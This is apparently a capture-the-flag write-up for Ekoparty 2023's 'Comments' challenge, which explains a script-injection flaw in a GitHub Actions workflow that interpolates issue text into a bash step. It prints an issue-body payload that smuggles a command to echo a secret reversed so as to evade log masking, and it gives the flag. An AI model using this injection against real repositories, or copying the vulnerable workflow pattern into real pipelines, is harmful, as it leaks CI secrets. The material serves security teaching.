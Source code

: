 ```yaml
---
title: Comments
type: writeup
date: 2023-11-12T19:56:46+02:00 
description: Writeup for Comments [Ekoparty 2023]
author: Honesty
tags:
- misc
draft: false
---
```

___

## Challenge Description

You must solve the first challenge to get the answer, all you need is inside the Lobby.

We have access to a GitHub repository with a single README file and a GitHub action workflow.

## Intuition

Checking the workflow script inside `.github/workflows/yearly_review.yml`

```yml
name: Parse review of teacher

on:
  issues:
    types: [opened, edited]

jobs:
  parse-review:
    runs-on: ubuntu-latest
    steps:
      - name: Extract Teacher name and review from issue body
        id: extract-review
        env: 
          db_pass: ${{ secrets.FLAG }} # Do we still need this to write to the DB?
        run: |
          TEACHER=$(echo '${{ github.event.issue.body }}' | grep -oP 'Teacher:.*$')
          REVIEW=$(echo '${{ github.event.issue.body }}' | grep -vP 'Teacher:.*$')
          echo "::set-output name=teacher::$TEACHER"
          echo "::set-output name=review::$REVIEW"
      - name: Comment on issue
        uses: actions/github-script@v5
        with:
          github-token: ${{secrets.GITHUB_TOKEN}}
          script: |
            const issueComment = {
              owner: context.repo.owner,
              repo: context.repo.repo,
              issue_number: ${{ github.event.issue.number }},
              body: `Thank you for reviewing ${'{{ steps.extract-review.outputs.teacher }}'}! Your review was: 
              ${'{{ steps.extract-review.outputs.review }}'}`
            };
            github.rest.issues.createComment(issueComment);
```

Note the **comment** on the `db_pass` line, where our flag is stored.

## Solution

The GitHub action above is executed for every issue created. Before running anything the environment variable `db_pass` is set to `secrets.FLAG`.

The first command in the `run` section uses a [special construct](https://docs.github.com/en/actions/learn-github-actions/variables#using-the-env-context-to-access-environment-variable-values) that gives access to context properties `${{ CONTEXT.PROPERTY }}`. This construct is interpolated and replaced by a **string** before the line is sent to the bash runner, allowing us to manipulate the commands.

```sh
TEACHER=$(echo '${{ github.event.issue.body }}' | grep -oP 'Teacher:.*$')
```

To exploit this, we create a special issue body that modifies the command chain and prints the variable:

```sh
Teacher: ') ; echo ${db_pass}; $(echo '
```

Executing this example won't reveal the actual value of `db_pass` because the GitHub Action console censors the output, displaying `***`. We can overcome this limitation by simply reversing the value.
```sh
Teacher: ') ; echo ${db_pass} | rev; $(echo '
```

This is how the final command looks like:

```sh
TEACHER=$(echo 'Teacher: ') ; echo ${db_pass} | rev; $(echo '' | grep -oP 'Teacher:.*$')
```

Reversing this value again gives us the flag.

### Flag

EKO{m0ve_y0uR_b0dy}
